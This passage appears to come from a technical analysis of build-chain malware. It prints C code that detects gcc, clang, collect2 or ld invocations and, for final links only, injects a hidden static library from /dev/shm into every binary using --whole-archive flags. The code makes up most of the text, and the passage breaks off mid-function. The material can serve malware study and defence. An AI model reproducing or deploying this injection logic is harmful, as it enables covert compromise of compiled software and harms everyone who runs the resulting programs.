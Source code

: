 ```c
int is_gcc(const char *path) {
    const char *progname = strrchr(path, '/');
    progname = progname ? progname + 1 : path;
    return strcmp(progname, "gcc") == 0 || strcmp(progname, "cc") == 0 || strcmp(progname, "clang") == 0;
}
```

The code above extracts the program name from the full path (e.g., /usr/bin/gcc) and directly compares it with known compiler names. The same pattern is used to identify `collect2` and `ld` in the `is_collect2` and `is_linker` functions.

Then, the `should_inject` function determines whether the injection should occur, based on the compiler arguments:

```c
int should_inject(char *const argv[]) {
    for (int i = 0; argv[i]; ++i) {
        if (strcmp(argv[i], "-c") == 0 || strcmp(argv[i], "-E") == 0 || strcmp(argv[i], "-S") == 0)
            return 0;
    }
    return 1;
}
```

These flags (-c, -E, -S) are used in intermediate compilation processes that do not generate final executables. Since the goal is to inject code into the final binary, these modes are ignored.

The most important function is `inject_args`, which constructs a new argument list by inserting the static library:

```c
char **inject_args(const char *bin_path, char *const argv[], int extra) {
    int argc;
    for (argc = 0; argv[argc]; ++argc);

    const char *lib_path = "/dev/shm/b.a";

    for (int i = 0; i < argc; ++i) {
        if (argv[i] && strstr(argv[i], "b.a") != NULL) {
            return NULL;
        }
    }

    const char **new_argv = malloc(sizeof(char *) * (argc + extra + 1));
    if (!new_argv) return NULL;

    int i = 0, j = 0;
    for (; i < argc; ++i)
        new_argv[j++] = argv[i];

    const char *arg1, *arg2, *arg3;
    if (is_gcc(bin_path)) {
        arg1 = "-Wl,--whole-archive";
        arg2 = lib_path;
        arg3 = "-Wl,--no-whole-archive";
    } else {
        arg1 = "--whole-archive";
        arg2 = lib_path;
        arg3 = "--no-whole-archive";
    }

    new_argv[j++] = arg1;
    new_argv[j++] = arg2;
    new_argv[j++] = arg3;
    new_argv[j] = NULL;
```